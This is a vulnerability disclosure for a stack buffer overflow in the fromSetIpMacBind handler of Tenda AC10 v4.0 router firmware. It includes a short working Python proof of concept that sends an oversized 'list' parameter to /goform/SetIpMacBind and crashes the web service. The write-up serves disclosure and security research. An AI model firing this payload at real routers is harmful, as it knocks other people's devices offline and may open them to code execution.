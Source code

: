 # Tenda Router Vulnerability on fromSetIpMacBind function
> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.13
>
> type:Stack Overflow  

# Overview 
- Firmware download website: https://www.tenda.com.cn/download/detail-3506.html

## Vulnerability Details

The Tenda AC10V4.0 V16.03.10.13 has a buffer overflow vulnerability. The vulnerability is triggered in the `fromSetIpMacBind` function when it retrieves the value of the list parameter at line 57, and ultimately causes an overflow at line 67 in the `FUN_0049e098` function during the sscanf call. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.
![scqv_websgetvar](assets/SetIpMacBind_websgetvar.png)
![scqv_set_clinet_qos](assets/FUN_0049e098.png)

## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```python
import requests
url = "http://192.168.1.100:80/goform/SetIpMacBind"
bindnum_value = "1"
list_value = "a" + "\x12" * 500 + "z" * 500  

data = {
    "bindnum": bindnum_value,
    "list": list_value
}

response = requests.post(url, data=data)
```

![python-poc-crash](crash_images/python_crash_49e098.png)

![httpd-segmentfault](crash_images/httpd_crash.png)
